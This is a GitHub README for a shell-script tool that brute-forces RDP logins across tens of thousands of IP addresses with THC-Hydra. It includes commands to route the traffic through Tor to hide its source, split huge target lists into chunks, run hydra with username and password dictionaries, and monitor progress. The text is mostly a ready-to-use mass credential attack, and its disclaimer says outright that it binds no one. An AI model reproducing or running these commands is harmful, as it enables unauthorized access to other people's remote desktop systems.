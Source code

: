 # RDP Mass Attack & Monitor

Please don't use in military or secret service organizations, or for illegal
purposes. (This is a wish and non-binding - most such people do not care about
laws and ethics anyway - and tell themselves they are one of the good ones.)

#### As you know THC-Hydra is not very happy with massive lists when attacking RDP. It either errors out completely or provides false negatives.

![monitor sh](https://user-images.githubusercontent.com/100805450/156768359-9081427b-199a-40ed-a69e-31495a633878.png)

------------

### Prerequisites:
1. Tor services are required, remove code in `attack.sh` below to not use proxies.
```bash
  HYDRA_PROXY=socks5://l:p@127.0.0.1:9050
  export HYDRA_PROXY
  printenv | grep HYDRA
  sleep 5
```
2. Create folders for IP source lists and used IP source lists:
```bash
mkdir data/ data-tested/
```
3. Have the IP list split into many files with 4-5 IP addresses each.
Example: 50,000 IP List should become 10,000 files with 5 IPs each.
```bash
# make sure you are inside source folder when running this command
split ip-list.txt -l 5
```
4. If you want to use username list instead one username or you want to use one password, edit `attack.sh` accordingly:
```bash
hydra -L usernames.lst -P "$password"
```
```bash
hydra -l admin -p password
```
```bash
hydra -L usernames.lst -P "$password"
```
------------

### Usage:

```bash
chmod +x attack.sh
```
```bash
./attack.sh <ip-list-location> <dictionary-location>
# example:
./attack.sh data wordlist/dict.txt
# ^ will use every file in /home/<your user>/data/ folder as IP list and attack it with /home/<your user>/wordlist/dict.txt wordlist
```
Script moves the used list file to "data-tested" folder and takes the next one from supplied folder. Did this for easier resume on crash or on stop.

------------

### Monitor.sh Usage:
```bash
chmod +x monitor.sh
watch -n 5 --color ./monitor.sh
```
